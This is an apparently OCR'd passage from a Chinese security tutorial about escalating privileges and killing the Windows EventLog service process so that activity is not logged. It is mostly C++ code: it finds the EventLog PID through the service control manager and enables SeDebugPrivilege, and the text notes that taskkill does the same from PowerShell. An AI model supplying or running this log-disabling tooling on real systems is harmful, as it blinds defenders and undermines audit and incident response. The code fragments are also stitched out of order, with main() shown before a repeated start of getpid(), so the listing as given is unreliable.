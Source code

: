 ```
					printf("[+]PID:%ld\n", lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId);
					PID = lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId;
				}
			}
			delete[] lpServices;
		}
		CloseServiceHandle(scHandle);
	}
	if (PID == 0)
		printf("[!]Get EventLog's PID error\n");

	return PID;
}

int main(int argc, char *argv[])
{
	DWORD pid = getpid();
	return 0;
}
```

## 0x04 提权关闭Eventlog进程
---

### 1、通过powershell实现

执行cmd命令taskkill即可

### 2、通过c++实现

c++的代码需要提升权限才能结束进程svchost.exe

```
#include <windows.h>

#pragma comment(lib,"Advapi32.lib") 

BOOL EnableDebugPrivilege(BOOL fEnable)
{
	BOOL fOk = FALSE;
	HANDLE hToken;

	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp;
		tp.PrivilegeCount = 1;
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
		tp.Privileges[0].Attributes = fEnable ? SE_PRIVILEGE_ENABLED : 0;
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
		fOk = (GetLastError() == ERROR_SUCCESS);
		CloseHandle(hToken);
	}
	return(fOk);
}

DWORD  getpid()
{
	DWORD PID = 0;
	SC_HANDLE scHandle = OpenSCManager(NULL, NULL, SC_MANAGER_ENUMERATE_SERVICE);
	if (scHandle == NULL)
	{
		printf("[!]OpenSCManager fail(%ld)", GetLastError());
```